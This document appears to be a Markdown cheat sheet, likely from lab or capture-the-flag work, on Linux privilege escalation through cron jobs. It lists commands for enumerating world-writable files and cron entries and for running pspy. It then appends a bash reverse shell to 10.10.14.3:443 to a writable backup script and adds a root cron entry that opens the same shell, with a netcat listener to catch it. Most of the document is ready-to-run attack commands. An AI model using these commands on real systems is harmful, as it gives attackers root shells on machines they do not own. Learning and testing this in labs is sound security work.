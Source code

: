 
### Find World-Writable Files (Potential Cron Job Scripts)

World-writable files could be abused for privilege escalation if executed by a higher-privileged user.

```bash
find / -path /proc -prune -o -type f -perm -o+w -exec ls -lah {} + 2>/dev/null
```

- `-path /proc -prune` → Excludes `/proc` to avoid unnecessary noise.
- `-type f -perm -o+w` → Finds world-writable files.
- `-exec ls -lah {} +` → Displays detailed information.

### List Files in a Suspicious Directory

If a backup or script directory is writable, it could be used for privilege escalation.

```bash
ls -lah /dmz-backups/
```

- Check for writable files (`w` permission) and ownership.

### Check Cron Jobs (If You Have Permissions)

List user and system-wide cron jobs:

```bash
crontab -l                # Current user's cron jobs  
sudo crontab -l           # Root user's cron jobs (if accessible)  
cat /etc/crontab          # System-wide cron jobs  
```

### Check `/etc/cron.d/` for Scheduled Jobs

Cron jobs in `/etc/cron.d/` might be running scripts as privileged users.

```bash
ls -lah /etc/cron.d/
cat /etc/cron.d/* 2>/dev/null  # View contents if readable  
```

### Use `pspy` to Monitor Background Processes

**`pspy`** is a powerful tool for identifying scripts executed by cron jobs.

#### Download `pspy` (Choose the Right Architecture)

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

#### Make it Executable

```bash
chmod +x pspy64
```

#### Run `pspy` to Monitor Processes

```bash
./pspy64 -pf -i 1000
```

### Modify a Vulnerable Script (Example: `/dmz-backups/backup.sh`)

#### Backup the Original Script

```bash
cp /dmz-backups/backup.sh /dmz-backups/backup.sh.bak
```

#### Append a Reverse Shell Payload

```bash
echo "bash -i >& /dev/tcp/10.10.14.3/443 0>&1" >> /dmz-backups/backup.sh
```

#### Start a Netcat Listener (On Your Attacking Machine)

```bash
nc -lnvp 443
```

#### Restore the Original Script After Testing

```bash
cp /dmz-backups/backup.sh.bak /dmz-backups/backup.sh
```

### Modify a Writable Cron Job File (Example: `/etc/cron.d/vulnerable_cron`)

#### Backup the File

```bash
cp /etc/cron.d/vulnerable_cron /etc/cron.d/vulnerable_cron.bak
```

#### Append a Malicious Cron Job

```bash
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'" >> /etc/cron.d/vulnerable_cron
```

#### Restore the Original Cron File

```bash
cp /etc/cron.d/vulnerable_cron.bak /etc/cron.d/vulnerable_cron
```


### **Key Improvements and Explanations:**

- **`find` command:** The `find` command now includes `-path /proc -prune` to avoid traversing the `/proc` filesystem, which can cause performance issues.
- **`crontab` commands:** Added both user and root `crontab -l` commands.
- **`cron.d` directory:** Included a command to list the contents of `/etc/cron.d/`.
- **`pspy` download:** Added a `wget` command to download `pspy`. You'll need to adjust the URL if a newer version is available or for a different architecture.
- **Script backup:** Emphasized the importance of backing up the original script before modifying it.
- **Reverse shell:** Provided an example of a Bash one-liner reverse shell.
- **Netcat listener:** Included the `nc` command to start a listener.
- **Cron.d file modification:** Added an example of how to modify a vulnerable file in `/etc/cron.d/`, including backup and restore commands.
- **Safety:** The commands are now formatted to highlight their potential danger.
- **Clarity:** Improved explanations of each command's purpose.